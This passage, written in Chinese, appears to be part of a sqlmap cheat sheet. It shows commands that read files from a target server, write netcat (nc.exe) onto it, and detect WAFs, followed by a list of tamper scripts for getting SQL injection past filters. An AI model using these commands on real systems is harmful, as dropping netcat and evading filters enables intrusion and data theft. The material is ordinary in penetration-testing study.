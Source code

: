 ```bash
sqlmap -u "http://xxx/get_str2.asp?name=luther" --file-read "C:/example.exe" -v 1
```

上传文件到服务器：

```bash
sqlmap -u "http://xxx/get_int.aspx?id=1" --file-write "/software/nc.exe.packed" --file-dest "C:/WINDOWS/Temp/nc.exe" -v 1
```

检测WAF/IDS/IPS（已废弃）：

```bash
sqlmap -u "http://xxx/union.php?id=1" --identify-waf
```

使用tamper脚本：

```bash
sqlmap -u "http://xxx/?id=1" --tamper "模块名"
```

## 常用Tamper脚本

### apostrophemask

将引号转换为UTF-8，用于过滤单引号。

### base64encode

替换为Base64编码。

### multiplespaces

围绕SQL关键字添加多个空格。

### space2plus

用加号替换空格。

### nonrecursivereplacement

SQL关键字双写绕过。

### space2randomblank

空格替换为%0D等有效字符。

### unionalltounion

将union all select替换为union select。

### securesphere

追加特制字符串，如：and '0having'='0having'
